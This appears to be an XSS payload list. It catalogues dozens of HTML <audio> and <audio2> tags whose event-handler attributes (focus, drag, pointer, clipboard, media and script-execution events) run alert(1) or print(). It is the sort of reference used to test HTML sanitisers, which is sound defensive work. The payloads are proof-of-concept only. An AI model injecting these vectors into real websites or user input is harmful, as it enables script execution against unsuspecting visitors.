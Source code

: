 &lt;audio controls ondurationchange=alert(1)&gt;&lt;source src=validaudio.mp3 type=audio/mpeg&gt;&lt;/audio&gt;
&lt;audio controls onprogress=alert(1)&gt;&lt;source src=validaudio.mp3 type=audio/mpeg&gt;&lt;/audio&gt;
&lt;audio controls src=1 onfocus=alert(1) autofocus&gt;
&lt;audio controls src=1 onfocusin=alert(1) autofocus&gt;
&lt;audio draggable="true" ondrag="alert(1)"&gt;test&lt;/audio&gt;
&lt;audio draggable="true" ondragend="alert(1)"&gt;test&lt;/audio&gt;
&lt;audio draggable="true" ondragenter="alert(1)"&gt;test&lt;/audio&gt;
&lt;audio draggable="true" ondragleave="alert(1)"&gt;test&lt;/audio&gt;
&lt;audio draggable="true" ondragstart="alert(1)"&gt;test&lt;/audio&gt;
&lt;audio id=x controls onfocus=alert(1) id=x&gt;&lt;source src="validaudio.wav"&gt;&lt;/audio&gt;
&lt;audio id=x controls onfocusin=alert(1) id=x&gt;&lt;source src="validaudio.wav"&gt;&lt;/audio&gt;
&lt;audio id=x tabindex=1 onactivate=alert(1)&gt;&lt;/audio&gt;
&lt;audio id=x tabindex=1 onbeforeactivate=alert(1)&gt;&lt;/audio&gt;
&lt;audio id=x tabindex=1 onbeforedeactivate=print()&gt;&lt;/audio&gt;&lt;input autofocus&gt;
&lt;audio id=x tabindex=1 ondeactivate=print()&gt;&lt;/audio&gt;&lt;input id=y autofocus&gt;
&lt;audio onafterscriptexecute=alert(1)&gt;&lt;script&gt;1&lt;/script&gt;
&lt;audio onbeforecopy="alert(1)" contenteditable&gt;test&lt;/audio&gt;
&lt;audio onbeforecut="alert(1)" contenteditable&gt;test&lt;/audio&gt;
&lt;audio onbeforepaste="alert(1)" contenteditable&gt;test&lt;/audio&gt;
&lt;audio onbeforescriptexecute=alert(1)&gt;&lt;script&gt;1&lt;/script&gt;
&lt;audio onblur=alert(1) tabindex=1 id=x&gt;&lt;/audio&gt;&lt;input autofocus&gt;
&lt;audio oncanplay=alert(1)&gt;&lt;source src="validaudio.wav" type="audio/wav"&gt;&lt;/audio&gt;
&lt;audio onclick="alert(1)"&gt;test&lt;/audio&gt;
&lt;audio oncontextmenu="alert(1)"&gt;test&lt;/audio&gt;
&lt;audio oncopy=alert(1) value="XSS" autofocus tabindex=1&gt;test
&lt;audio oncut=alert(1) value="XSS" autofocus tabindex=1&gt;test
&lt;audio ondblclick="alert(1)" autofocus tabindex=1&gt;test&lt;/audio&gt;
&lt;audio onfocusout=alert(1) tabindex=1 id=x&gt;&lt;/audio&gt;&lt;input autofocus&gt;
&lt;audio onkeydown="alert(1)" contenteditable&gt;test&lt;/audio&gt;
&lt;audio onkeypress="alert(1)" contenteditable&gt;test&lt;/audio&gt;
&lt;audio onkeyup="alert(1)" contenteditable&gt;test&lt;/audio&gt;
&lt;audio onloadeddata=alert(1)&gt;&lt;source src="validaudio.wav" type="audio/wav"&gt;&lt;/audio&gt;
&lt;audio onmousedown="alert(1)"&gt;test&lt;/audio&gt;
&lt;audio onmouseenter="alert(1)"&gt;test&lt;/audio&gt;
&lt;audio onmouseleave="alert(1)"&gt;test&lt;/audio&gt;
&lt;audio onmousemove="alert(1)"&gt;test&lt;/audio&gt;
&lt;audio onmouseout="alert(1)"&gt;test&lt;/audio&gt;
&lt;audio onmouseover="alert(1)"&gt;test&lt;/audio&gt;
&lt;audio onmouseup="alert(1)"&gt;test&lt;/audio&gt;
&lt;audio onmousewheel=alert(1)&gt;requires scrolling
&lt;audio onpaste="alert(1)" contenteditable&gt;test&lt;/audio&gt;
&lt;audio onpointerdown=alert(1)&gt;XSS&lt;/audio&gt;
&lt;audio onpointerenter=alert(1)&gt;XSS&lt;/audio&gt;
&lt;audio onpointerleave=alert(1)&gt;XSS&lt;/audio&gt;
&lt;audio onpointermove=alert(1)&gt;XSS&lt;/audio&gt;
&lt;audio onpointerout=alert(1)&gt;XSS&lt;/audio&gt;
&lt;audio onpointerover=alert(1)&gt;XSS&lt;/audio&gt;
&lt;audio onpointerrawupdate=alert(1)&gt;XSS&lt;/audio&gt;
&lt;audio onpointerup=alert(1)&gt;XSS&lt;/audio&gt;
&lt;audio src/onerror=alert(1)&gt;
&lt;audio2 draggable="true" ondrag="alert(1)"&gt;test&lt;/audio2&gt;
&lt;audio2 draggable="true" ondragend="alert(1)"&gt;test&lt;/audio2&gt;
&lt;audio2 draggable="true" ondragenter="alert(1)"&gt;test&lt;/audio2&gt;
&lt;audio2 draggable="true" ondragleave="alert(1)"&gt;test&lt;/audio2&gt;
&lt;audio2 draggable="true" ondragstart="alert(1)"&gt;test&lt;/audio2&gt;
&lt;audio2 id=x tabindex=1 onactivate=alert(1)&gt;&lt;/audio2&gt;
&lt;audio2 id=x tabindex=1 onbeforeactivate=alert(1)&gt;&lt;/audio2&gt;
&lt;audio2 id=x tabindex=1 onbeforedeactivate=print()&gt;&lt;/audio2&gt;&lt;input autofocus&gt;
&lt;audio2 id=x tabindex=1 ondeactivate=print()&gt;&lt;/audio2&gt;&lt;input id=y autofocus&gt;
&lt;audio2 onafterscriptexecute=alert(1)&gt;&lt;script&gt;1&lt;/script&gt;